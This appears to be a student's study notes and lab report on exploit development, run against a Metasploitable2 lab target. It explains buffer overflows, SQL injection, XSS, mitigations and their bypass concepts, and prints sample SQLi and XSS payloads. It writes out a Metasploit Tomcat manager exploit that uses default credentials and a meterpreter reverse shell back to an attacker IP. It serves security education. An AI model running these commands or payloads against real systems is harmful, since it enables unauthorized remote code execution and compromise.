


# 3. Exploit Development Basics

### What is Exploit Development?

Exploit development is the process of creating code or techniques that take advantage of vulnerabilities in a system to achieve unintended behavior such as remote code execution, data access, or privilege escalation.

Unlike penetration testing (which uses existing tools), exploit development involves understanding how vulnerabilities work internally and crafting payloads to exploit them.

---
---

## What are the Main Types of Exploits?

Exploit types are based on the nature of the vulnerability being targeted. According to practical learning platforms like TryHackMe and real-world PoCs from Exploit-DB, the following are the most fundamental:

---

1. Buffer Overflow Exploits

A buffer overflow occurs when a program writes more data to memory than it can handle, overwriting adjacent memory regions.

How it works:
- Programs allocate fixed-size buffers in memory
- Excess input overwrites:
  - Return address
  - Function pointers
- Attacker injects shellcode into memory

Result:
- Control over program execution flow

Example Flow (TryHackMe Buffer Overflow Room):
- Identify vulnerable input field
- Send increasing payload to find offset
- Overwrite EIP (Instruction Pointer)
- Redirect execution to shellcode

Deep Insight:
This is a **memory corruption vulnerability**, not just input validation failure. It requires understanding of stack memory, registers, and execution flow.

---

2. SQL Injection (SQLi)

SQL Injection occurs when user input is directly included in database queries without proper sanitization.

How it works:
- Input is injected into SQL query
- Query logic is modified

Example:
Input:
```sql
' OR 1=1 --
```

Resulting Query:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --'
```

Impact:
- Authentication bypass
- Data extraction
- Database modification

Exploit-DB Insight:
Many PoCs demonstrate automated exploitation using sqlmap or manual payload crafting.

---

3. Cross-Site Scripting (XSS)

XSS occurs when user input is reflected or stored in a web page without proper encoding.

Types:
- Reflected XSS
- Stored XSS
- DOM-based XSS

Example:
Input:
```html
<script>alert(1)</script>
```

Impact:
- Session hijacking
- Cookie theft
- Defacement

Deep Insight:
Unlike SQLi (server-side), XSS executes in the victim’s browser, making it a **client-side attack**.

---
---

## How is Exploit Writing Performed?

Exploit writing is the process of converting a vulnerability into a working attack.

Learning Reference: Exploit-DB + TCM Security

---

Step 1: Identify Vulnerability

- Source: Nmap scan, manual testing, or vulnerability scanner
- Example:
  - Outdated service
  - Input validation flaw

---

Step 2: Analyze Existing PoC (Exploit-DB)

Exploit-DB provides real-world Proof of Concept (PoC) exploits.

Key Learning:
- Understand how exploit works
- Identify:
  - Target service
  - Payload structure
  - Required conditions

Important:
Do not blindly run PoC—analyze it first.

---

Step 3: Modify or Craft Exploit

Using Python or scripting:

Example (Buffer Overflow concept):
- Send payload:
  "A" * offset + return_address + shellcode

Tasks:
- Find offset
- Control EIP
- Inject payload

TCM Security Insight:
Exploit development is iterative—trial and error is expected.

---

Step 4: Execute and Validate

- Run exploit against target (lab environment only)
- Check:
  - Shell access
  - Data retrieval
  - Command execution

Validation is important:
This confirms exploit reliability.

---

### How Learning References Apply Practically

Exploit-DB:
- Provides real-world PoCs
- Helps understand exploit structure and payload crafting

TCM Security Guides:
- Explain step-by-step exploit development
- Focus on beginner to intermediate exploit techniques

TryHackMe Buffer Overflow Room:
- Hands-on practice for:
  - Offset calculation
  - EIP control
  - Shellcode injection

Together, they build both:
- Conceptual understanding
- Practical skill

---

### Key Objectives of Exploit Development

- Understand how vulnerabilities lead to exploitation
- Develop or modify exploits safely in lab environments
- Validate exploit success through controlled execution
- Learn internal system behavior (memory, input handling)
- Bridge gap between vulnerability detection and real attack

---

### Analyst Insight

Exploit development transforms theoretical vulnerabilities into real-world impact. A vulnerability is only critical if it can be reliably exploited. Understanding exploit mechanics provides deeper insight into system weaknesses and improves both offensive and defensive security skills.

---
---

## What are Mitigation Techniques Against Exploits?

Modern systems implement multiple security mechanisms to prevent or reduce the success of exploits. Understanding these is essential because exploit development often involves bypassing them.

---

1. ASLR (Address Space Layout Randomization)

ASLR randomizes memory addresses used by system processes.

How it works:
- Each time a program runs, memory locations (stack, heap, libraries) are randomized
- Attacker cannot predict where payload or return address is located

Impact on Exploitation:
- Makes buffer overflow exploitation difficult
- Breaks hardcoded return addresses

Bypass Concept:
- Information leakage vulnerabilities can reveal memory addresses
- Brute-force attempts (less reliable)

Insight:
Without ASLR, exploitation becomes significantly easier.

---

2. DEP (Data Execution Prevention)

DEP prevents execution of code in non-executable memory regions.

How it works:
- Marks certain memory areas (like stack) as non-executable
- Even if shellcode is injected, it cannot run

Impact:
- Stops traditional buffer overflow shellcode execution

Bypass Concept:
- Return-Oriented Programming (ROP)
- Reusing existing executable code fragments

---

3. WAF (Web Application Firewall)

WAF filters malicious HTTP requests before they reach the server.

How it works:
- Detects patterns like:
  - SQL keywords
  - Script tags
  - Known payload signatures

Impact:
- Blocks common SQLi and XSS payloads

Limitations:
- Can be bypassed using:
  - Encoding (URL encoding, double encoding)
  - Obfuscation
  - Logic-based payloads

Insight:
WAF is not a fix, it is a **filtering layer**.

---

4. Patching and Updates

Patching removes known vulnerabilities from software.

How it works:
- Developers release updates fixing security flaws
- Systems must apply updates regularly

Impact:
- Prevents exploitation of known vulnerabilities (e.g., WannaCry)

Failure Case:
- Unpatched systems remain vulnerable despite available fixes

Insight:
Most real-world attacks exploit **known but unpatched vulnerabilities**

---

### How Do These Mitigations Relate to Exploit Development?

Exploit development is not just about exploiting vulnerabilities but also about:

- Understanding why exploitation fails
- Identifying which mitigation is blocking the exploit
- Attempting controlled bypass techniques

Example:

- If exploit fails → check:
  - Is ASLR enabled?
  - Is DEP blocking execution?
  - Is WAF filtering payload?

This creates a deeper understanding of system defenses.

---

### Safe Exploit Development Practices

Exploit development must always be performed in controlled environments.

Guidelines:

- Use lab environments only:
  - Metasploitable2
  - DVWA
  - TryHackMe labs

- Never test on unauthorized systems

- Document:
  - Payload used
  - Target system
  - Result (success/failure)

- Avoid destructive actions:
  - No data deletion
  - No service disruption

Insight:
Ethical boundaries are critical. Exploit development without authorization is illegal.

---

### Real-World Perspective

In real-world scenarios:

- Attackers combine:
  - Vulnerability + misconfiguration + weak defenses

- Example attack chain:
  - SQL Injection → database access
  - Extract credentials → login
  - Privilege escalation → full system compromise

Exploit development helps understand:
- How attacks actually happen
- Why single vulnerabilities can become critical

---

### Key Takeaway

Security mechanisms like ASLR, DEP, WAF, and patching significantly reduce exploit success, but they are not foolproof. A skilled attacker or tester analyzes these defenses and adapts exploitation techniques accordingly. Understanding both attack and defense is essential for effective cybersecurity practice.

---
----

# 3. Exploitation Lab

## Objective

To simulate exploitation of identified vulnerabilities using industry-standard tools and validate their impact in a controlled lab environment.

**Target IP** = 192.168.1.50  
**Attacker IP** = 192.168.1.47  

---

## Tools Used

- Metasploit Framework  
- Burp Suite (for web testing)  
- sqlmap (for SQL Injection testing)  
- Exploit-DB (for PoC reference)  

---

## Exploit Simulation

The target system (Metasploitable2) was tested for known vulnerabilities. A Tomcat-based service was identified as a potential entry point and tested using a controlled exploitation module.

---

## Exploit Log

| Exploit ID | Description  | Target IP       | Status  | Payload     |
|-----------|-------------|----------------|---------|------------|
| 001       | Tomcat RCE  | 192.168.1.50   | Success | Java Shell |

---

## Exploitation of Target

Metasploit database was used to perform structured scanning and exploitation.

### Nmap Scan via Metasploit

```bash
db_nmap -sV 192.168.1.50
-----------------------------
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-20 06:27 EDT
[*] Nmap: Nmap scan report for 192.168.1.50
[*] Nmap: Host is up (0.0017s latency).
[*] Nmap: Not shown: 977 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 21/tcp   open  ftp     vsftpd 2.3.4
[*] Nmap: 22/tcp   open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
[*] Nmap: 23/tcp   open  telnet  Linux telnetd
[*] Nmap: 25/tcp   open  smtp    Postfix smtpd
[*] Nmap: 53/tcp   open  domain  ISC BIND 9.4.2
[*] Nmap: 80/tcp   open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
[*] Nmap: 111/tcp  open  rpcbind 2 (RPC #100000)
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 512/tcp  open  exec    netkit-rsh rexecd
[*] Nmap: 513/tcp  open  login?
[*] Nmap: 514/tcp  open  tcpwrapped
[*] Nmap: 1099/tcp open  java-rmi GNU Classpath grmiregistry
[*] Nmap: 1524/tcp open  bindshell Metasploitable root shell
[*] Nmap: 2049/tcp open  nfs     2-4 (RPC #100003)
[*] Nmap: 2121/tcp open  ftp     ProFTPD 1.3.1
[*] Nmap: 3306/tcp open  mysql   MySQL 5.0.51a-3ubuntu5
[*] Nmap: 5432/tcp open  postgresql PostgreSQL DB 8.3.0 - 8.3.7
[*] Nmap: 5900/tcp open  vnc     VNC (protocol 3.3)
[*] Nmap: 6000/tcp open  X11     (access denied)
[*] Nmap: 6667/tcp open  irc     UnrealIRCd
[*] Nmap: 8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
[*] Nmap: 8180/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
[*] Nmap: MAC Address: 00:0C:29:58:78:49 (VMware)
[*] Nmap: Service Info: Hosts: metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 24.66 seconds
```
Key observation:

Apache Tomcat service detected on port 8180

## Exploitation Process

msfconsole
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS 192.168.1.50
set RPORT 8180
set USERNAME tomcat
set PASSWORD tomcat
set payload java/meterpreter/reverse_tcp
set LHOST 192.168.1.47




---

## Exploitation Evidence

```bash
run
```



---

## Validation (Exploit-DB Reference)

The vulnerability was validated using publicly available references from Exploit-DB. Apache Tomcat manager interfaces are known to be vulnerable when default credentials are used.

Successful exploitation confirms that this is a valid vulnerability and not a false positive.

---

## PoC Summary

The Apache Tomcat service was tested using Metasploit in a controlled lab environment. Exploitation using default credentials resulted in a successful meterpreter session. This confirms the presence of a remote code execution vulnerability and demonstrates that the system can be compromised by an attacker.

---

## Key Findings

- Remote Code Execution successfully achieved  
- Default credentials enabled unauthorized access  
- Vulnerability is confirmed and exploitable  
- Meterpreter session established  

---

## Impact

- Full system compromise possible  
- Unauthorized command execution  
- Data access and modification risk  
- Possibility of persistence and lateral movement  

---

## Conclusion

The exploitation phase confirmed that the identified vulnerability is practically exploitable. The successful compromise of the Apache Tomcat service demonstrates critical security weaknesses in the system. Immediate remediation is required to prevent unauthorized access and system compromise.


